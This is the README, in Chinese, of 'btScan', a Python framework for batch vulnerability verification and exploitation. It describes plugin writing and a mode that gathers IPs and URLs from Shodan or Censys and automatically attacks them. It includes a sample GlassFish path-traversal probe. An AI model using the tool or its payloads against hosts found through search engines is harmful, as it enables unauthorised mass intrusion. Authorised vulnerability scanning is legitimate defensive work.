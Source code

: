 ##目录结构

    --lib 核心文件库

    --report 报告生成的文件夹

    --node 里面每一个py文件是一个攻击向量，添加扫描节点也是向里面添加文件

    --crawl 通过空间搜索引擎抓取url或者ip的脚本
    

##使用方法
    python btScan.py
    usage: btScan.py [options]
    
    * batch vulnerability verification and exploition framework. *
    By he1m4n6a
    
    optional arguments:
      -h, --help   show this help message and exit
      -t THREADS   Num of scan threads for each scan process, 20 by default
      -m MODE      select mode [config|script]
                   e.g. -m script
      -n NAME      from node floder choose a script
      -c COMMAND   give an instruction when use script mode [verify|exploit]
                   e.g. -c verify
      -u URL_FILE  input url file
      -i IP_FILE   input ip file
      -autoIP      get ip from space search engine and auto attack
      -autoURL     get url from space search engine and auto attack
      -v           show program's version number and exit

脚本存在两种验证模式，一种是通过加载模块，另一种是通过配置文件。复杂的可以通过加载脚本，简单的通过加载配置文件即可。然后攻击也有两种模式，验证verify模式和攻击exploit模式。 你也可以指定ip或者url作为输入格式，也可以自动获取ip或者url，那就是配合crawl文件下的网络空间抓取模块。

**示例**
```
    python btscan.py -n joomla -m script -c verify -u url.txt
-n 指定node文件夹下的joomla.py，-m指定为script模式，即指定加载模块的模式。-c指定模式为验证，仅为验证就好了，-u指定输入为url的模式。
```
```
python btscan.py -n joomla -m script -c exploit -u url.txt
同上，只是指定为攻击模式。
```
```
python btscan.py  -m config -c verify -i ip.txts
-m指定为config模式，-c指定为验证模式，-i指定输入的为ip模式，仅需通过conf目录下的scan_rule.ini的配置就够了。
```


##插件编写规则

仅需要在node文件夹下新增一个py文件

py文件中重要的有两个函数verify和exploit函数，没有exploit攻击模式，仅需要verify函数，返回值有三个值，第一个值是返回是否存在漏洞，返回True或者False；第二个值是返回url，第三个值返回需要打印的信息。

***示例(glassfish.py为例)***

```
#!/usr/bin/env python
#coding=utf8

import requests

def verify(ip):
    url = 'https://' + str(ip) + ':4848//theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/'
    try:
        r = requests.get(url, verify=False, timeout=5)
        if 'ejb-timer-service-app' in r.text:
            msg = 'vul'
            return True, ip, msg
	else:
            msg = 'safe'
            return False, ip, msg
    except Exception, e:
        #msg = str(e)
	msg = 'safe'
        return False, ip, msg


def exploit(ip):
    verify(ip)
```
上面函数都可以自己定义，主要是verfiy和exploit函数，如果exploit函数和verify函数一样，exploit函数里面只要简单的调用verify(url)即可。

##其他

crwal文件夹的NetSearch.py里面的shadon和censys模块的密钥要自己填上。

有任何交流和问题可以联系我he1m4n6a@163.com
